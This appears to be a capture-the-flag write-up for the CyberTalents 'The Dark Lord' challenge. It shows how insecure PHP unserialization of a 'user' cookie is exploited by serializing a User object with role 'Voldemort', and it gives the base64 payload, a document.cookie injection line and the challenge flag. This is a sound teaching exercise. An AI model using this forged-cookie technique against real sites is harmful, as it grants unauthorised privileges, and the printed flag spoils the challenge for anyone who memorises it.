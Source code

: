# CyberTalents The Dark Lord

#### Let's start with opening `http://52.28.216.196/darklord/`

## (1) Discovering

![Website Picture](https://github.com/Ahmedwaleed22/The-Dark-Lord/pic1.png)

<p>As we can see it looks like that it's a normal page nothing strange in it let's check the source code</p>

![Source Code Picture](https://github.com/Ahmedwaleed22/The-Dark-Lord/pic2.png)

<p>I found that there is a link to "source.php" let's check it</p>

![Source.php File Picture](https://github.com/Ahmedwaleed22/The-Dark-Lord/pic3.png)

<p>As we can see it has php code with some html let's check what can we do with it</p>

<p>There is a class called user that has a private variable called "role" and it has value of "Guest", and there is a "GetInfo" method that checks if you have "Voldemort" role or not and return something according to that</p>

<p>Then we have another piece of php code checking if user have "user" cookie and if it exists it decode it and then unserializing it. and if "user" cookie not exists it create a user with the default role (Guest)</p>

## (2) Coding

<p>Now we can take the user class, edit the role to "Voldemort" then serializing and then encoding it let's try to do that with the following code</p>

```php
<?php

class User
{
    private $role = "Voldemort";

    public function GetInfo()
    {
        include("titles.php");

        if($this->role === "Voldemort")
        {
            return $Title_A;
        }
        else
        {
            return $Title_B;
        }
    }

}

$user = new User();

$solution = base64_encode(serialize($user));

echo $solution;
```

### It printed out `Tzo0OiJVc2VyIjoxOntzOjEwOiIAVXNlcgByb2xlIjtzOjk6IlZvbGRlbW9ydCI7fQ==`


## (3) Exploiting

<p>There is two ways to exploit it</p>

### (1) Using "Cookie Editor" Extention

<p>You can add new cookie named "user" and asign "Tzo0OiJVc2VyIjoxOntzOjEwOiIAVXNlcgByb2xlIjtzOjk6IlZvbGRlbW9ydCI7fQ==" to it's value.</p>

![Exploiting with "Cookie Editor"](https://github.com/Ahmedwaleed22/The-Dark-Lord/pic4.png)

### (2) Using browser console

<p>You can easily execute the following code in the browser console</p>

#### `document.cookie = "user=Tzo0OiJVc2VyIjoxOntzOjEwOiIAVXNlcgByb2xlIjtzOjk6IlZvbGRlbW9ydCI7fQ=="`

# That's it

![Flag](https://github.com/Ahmedwaleed22/The-Dark-Lord/pic5.png)

## Flag: FL@G{S3r!alizat!on_!s_D@ng3r0us}


